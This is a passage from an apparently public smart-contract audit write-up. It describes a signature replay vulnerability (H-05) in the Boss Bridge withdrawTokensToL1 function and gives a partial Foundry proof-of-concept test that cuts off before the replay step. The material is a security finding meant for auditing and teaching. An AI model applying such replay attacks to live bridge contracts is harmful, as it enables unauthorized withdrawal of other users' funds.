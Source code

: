 ```javascript
        deployedContract = addr;
    } else {
        revert("Invalid chainid. Deployment is supported on L1 (Ethereum) and L2 (zkSync) only.");
    }

    // Store the symbol-address mapping
    s_tokenToAddress[symbol] = deployedContract;

    // Emit an event to signal successful deployment
    emit TokenDeployed(symbol, deployedContract);
}
```
## <a id='H-05'></a>H-05. Signature Replay Attack in Withdrawal, Leads to Unauthorized Spending or Unintended Consequences.            

### Relevant GitHub Links
	
https://github.com/Cyfrin/2023-11-Boss-Bridge/blob/dad104a9f481aace15a550cf3113e81ad6bdf061/src/L1BossBridge.sol#L91

## Summary

In `L1BossBridge::withdrawTokensToL1` the signature Replay attacks on withdrawls can lead to unauthorized spending or unintended consequences.

## Vulnerability Details

The vulnerability arises from inadequate protection against signature replay attacks in the `withdrawTokensToL1` function.

## Impact

In `L1BossBridge::withdrawTokensToL1`, signature replay attacks on withdrawals can result in unauthorized spending or unintended consequences.

## POC

- Deposit a certain amount of tokens into the bridge contract.
- Get approval from the **contract owner** to be included in the signers mapping. This approval step is necessary to identify legitimate signers.
- Now run the test and you will get this result `Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 18.86ms`

```
// replay attack
// considering attacker is in signers mapping and has deposited tokens already
function testReplayAttack() public {
     vm.startPrank(user);
     uint256 depositAmount = 10e18;
     uint256 userInitialBalance = token.balanceOf(address(user));
    
     token.approve(address(tokenBridge), depositAmount);
     tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
    
     assertEq(token.balanceOf(address(vault)), depositAmount);
     assertEq(token.balanceOf(address(user)), userInitialBalance - depositAmount);
    
     uint256 attackerBeforeAmount = token.balanceOf(address(attacker));
     console.log("Attacker Amount Before Withdrawal:", attackerBeforeAmount);
    
```